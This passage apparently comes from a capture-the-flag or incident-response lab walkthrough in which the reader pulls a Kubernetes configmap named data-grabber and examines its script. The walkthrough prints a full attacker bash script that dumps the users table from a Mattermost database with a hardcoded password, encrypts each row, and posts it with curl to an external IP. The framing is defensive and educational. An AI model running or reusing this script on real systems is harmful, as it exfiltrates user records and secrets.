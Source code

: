 ```bash
kubectl get configmap data-grabber -o yaml > grabber.yaml
```

If you perform the next step, you can see that the `grabber.sh` section has poor formatting and spacing.

```bash
cat grabber.yaml
```

After you fix the formatting and indentation of the `grabber.sh` section, you will notice it looks similar to this: 

>Note: You don't need to run the script below. It is included to show how the `grabber.sh` section looks after formatting is fixed. 

```bash
#!/bin/bash

ENCRYPTION_KEY=$(cat /etc/secret-path/encryptionkey)
EXTERNAL_SERVER="http://123.45.67.110/upload"

export PGPASSWORD="tartans"

count=0

while IFS= read -r line
do
    # Encrypt the data
    encrypted_data=$(echo "$line" | openssl enc -aes-256-cbc -a -salt -pass pass:$ENCRYPTION_KEY -pbkdf2)

    echo "[INFO]: $encrypted_data"

    # Send the data to the external server
    curl -s -X POST -F "data=$encrypted_data" $EXTERNAL_SERVER
    echo ""
    
    count=$((count+1))

    if ((count % 15 == 0)); then
        # MY HACKER SIGNATURE
        echo "[Destination]: U2FsdGVkX1/b+zUrN2OVxnWnKUnkoM92EfsOja8ty6yV+h6/y9eBz0hIT85hSWtC"
    fi

    sleep 30
done < <(psql -h 10.3.3.10 -p 30432 -U root -d mattermost_db -c "SELECT * FROM users;")
```

After fixing the spacing, it is apparent that `grabber.sh` is grabbing rows from the **mattermost_db**, encrypting them, and forwarding them to an external server owned by the attacker. Once the count is a multiple of 15, it displays the **Destination**. 

17. Before stopping the attack, collect the logs of this pod. 
